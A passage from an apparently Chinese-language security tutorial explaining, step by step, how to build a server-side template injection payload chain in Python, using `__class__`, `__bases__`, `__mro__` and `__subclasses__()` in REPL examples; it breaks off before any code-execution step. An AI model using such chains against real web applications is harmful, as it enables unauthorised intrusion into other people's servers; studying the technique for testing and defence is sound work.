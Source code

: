 ![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHqeCWAPS5ibU4YSfqPhzMGVANXJIVuo0Kp7aLq6OQnHOb5CwqWRkeLIg/640?wx_fmt=png)

可以看到原封不动的输出了`{{2-1}}`  

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHBKhKHA65JdAibPMu4e1iazVshcHEc7oPpa8ZVjW9GibNnDAENibHbThFicg/640?wx_fmt=png)

  

构造链思路
-----

这里从零开始介绍如何去构造 SSTI 漏洞的 payload，可以用上面存在 SSTI 漏洞的`ssti.py`做实验

*   第一步
    

目的：使用`__class__`来获取内置类所对应的类

可以通过使用`str`，`list`，`tuple`，`dict`等来获取

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHyR7GaSBAhy1mahVWaicTSljtPvrTK2IAMSib6Be8APz9v1kUhWkduibRQ/640?wx_fmt=png)

*   第二步
    

目的：拿到`object`基类

用`__bases__[0]`拿到基类

```
Python 3.7.8
>>> ''.__class__.__bases__[0]
<class 'object'>
```

用`__base__`拿到基类

```
Python 3.7.8
>>> ''.__class__.__base__
<class 'object'>
```

用`__mro__[1]`或者`__mro__[-1]`拿到基类

```
Python 3.7.8
>>> ''.__class__.__mro__[1]
<class 'object'>
>>> ''.__class__.__mro__[-1]
<class 'object'>
```

*   第三步
    

用`__subclasses__()`拿到子类列表

```
Python 3.7.8
>>> ''.__class__.__bases__[0].__subclasses__()
...一大堆的子类
```
